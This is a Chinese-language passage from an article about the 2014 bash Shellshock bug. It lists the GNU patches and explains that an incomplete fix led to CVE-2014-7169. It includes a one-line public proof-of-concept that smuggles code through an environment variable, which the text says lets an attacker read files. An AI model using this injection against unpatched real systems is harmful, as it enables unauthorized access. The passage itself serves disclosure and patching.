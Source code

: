 
--[ 2. 补丁和后续

从最早GNU/Linux发行版社区收到的补丁：

https://bugzilla.novell.com/attachment.cgi?id=606672

可以看出BASH的确没有做异常处理，而直接解析后就执行了。

正式的社区补丁在这里：

http://ftp.gnu.org/pub/gnu/bash/bash-3.0-patches/bash30-017
http://ftp.gnu.org/pub/gnu/bash/bash-3.1-patches/bash31-018
http://ftp.gnu.org/pub/gnu/bash/bash-3.2-patches/bash32-052
http://ftp.gnu.org/pub/gnu/bash/bash-4.0-patches/bash40-039
http://ftp.gnu.org/pub/gnu/bash/bash-4.1-patches/bash41-012
http://ftp.gnu.org/pub/gnu/bash/bash-4.2-patches/bash42-048
http://ftp.gnu.org/pub/gnu/bash/bash-4.3-patches/bash43-025

但由于补丁修复的不完整，导致了CVE-2014-7169的爆出,POC如下：

shawn@shawn-fortress /tmp $ date -u > test_file
shawn@shawn-fortress /tmp $ env X='() { (a)=<\' bash -c 'test_file cat'
bash: X: line 1: syntax error near unexpected token `='
bash: X: line 1: `'
bash: error importing function definition for `X'
Thu Sep 25 09:37:04 UTC 2014

这个POC可以让攻击者能读文件，看来后续的故事还没结束...................

[1] BASH
http://www.gnu.org/software/bash/

[2] Bash specially-crafted environment variables code injection attack
https://securityblog.RedHat.com/2014/09/24/bash-specially-crafted-environment-variables-code-injection-attack/

[3] CVE-2014-6271
http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271

[4] CVE-2014-7169
http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169

[4] CVE-2014-6271: remote code execution through bash
http://seclists.org/oss-sec/2014/q3/651

本文永久更新链接地址：http://www.linuxidc.com/Linux/2014-10/107984.htm
linux